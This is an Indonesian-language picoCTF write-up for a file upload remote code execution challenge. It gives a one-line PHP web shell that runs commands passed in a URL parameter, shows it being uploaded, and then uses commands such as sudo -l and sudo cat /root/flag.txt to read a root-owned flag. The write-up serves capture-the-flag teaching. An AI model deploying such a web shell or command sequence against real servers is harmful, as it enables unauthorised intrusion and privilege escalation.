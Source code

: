 # 🐚 picoCTF - File Upload RCE Exploit

## 📝 Deskripsi Soal

> A developer has added profile picture upload functionality to a website.  
> However, the implementation is flawed, and it presents an opportunity for you.  
> Your mission is to locate the file upload area and retrieve the hidden flag in `/root`.

![Upload](upload.png)
---

## 💥 RCE - Remote Code Execution

RCE (Remote Code Execution) adalah celah keamanan yang memungkinkan penyerang menjalankan perintah (command) arbitrer di server dari jarak jauh.

Dalam konteks ini, kita akan mengeksploitasi fitur upload foto profil untuk mengunggah file PHP berisi payload command execution.

---

## ⚙️ Syarat Terjadinya Eksploitasi

Agar serangan ini berhasil, 3 kondisi berikut harus terpenuhi:

1. Terdapat fitur upload file (foto).
2. File yang di-upload disimpan di lokasi yang dapat kita akses (misalnya: /uploads/).
3. File tersebut dapat dieksekusi sebagai script server (misalnya file .php di server PHP).

---

## 🧪 Langkah Eksploitasi

1. Siapkan file PHP berikut dan beri nama sembarang, misalnya: shell.php

    ```php
    <?txt system($_GET['cmd']); ?> (harus php)
    ```

2. Upload file ini melalui form upload yang tersedia di web.

3. Akses file tersebut di URL yang sesuai pathnya di ganti dengan yang udah diketahui. Contoh:

    ```
    http://<target>/uploads/shell.php?cmd=whoami
    ```

4. Uji apakah command berhasil dijalankan. Output:

    ```
    www-data
    ```

5. Cek file yang ada di direktori saat ini:

    ```
    ?cmd=ls
    ```

    Output:

    ```
    shell.php
    ```

6. Coba lihat hak akses user www-data:

    ```
    ?cmd=sudo -l
    ```

    Output:

    ```
    Matching Defaults entries for www-data on challenge:
        env_reset, mail_badpass, secure_path=...

    User www-data may run the following commands on challenge:
        (ALL) NOPASSWD: ALL
    ```

    Artinya user www-data dapat menjalankan sudo command tanpa password.

7. Lanjutkan eksplorasi ke direktori root:

    ```
    ?cmd=sudo ls /root
    ```

    Output:

    ```
    flag.txt
    ```

8. Baca isi flag:

    ```
    ?cmd=sudo cat /root/flag.txt
    ```

    Output (misal):

    ```
    picoCTF{example_flag_here}
    ```

---

## 🔐 Kenapa Menggunakan PHP?

File PHP memungkinkan kita menjalankan perintah server-side dengan fungsi seperti system(), exec(), shell_exec(), dll. Karena web server (Apache/Nginx) biasanya mengizinkan eksekusi file PHP, ini menjadi pilihan paling umum untuk eksploitasi upload.

---

## ⚠️ Disclaimer

Write-up ini dibuat untuk tujuan edukasi dan pembelajaran keamanan siber.  
Jangan gunakan teknik ini pada sistem yang bukan milik Anda tanpa izin.  
Jika ada kekeliruan dalam penjelasan, mohon dimaklumi dan beri masukan 🙏
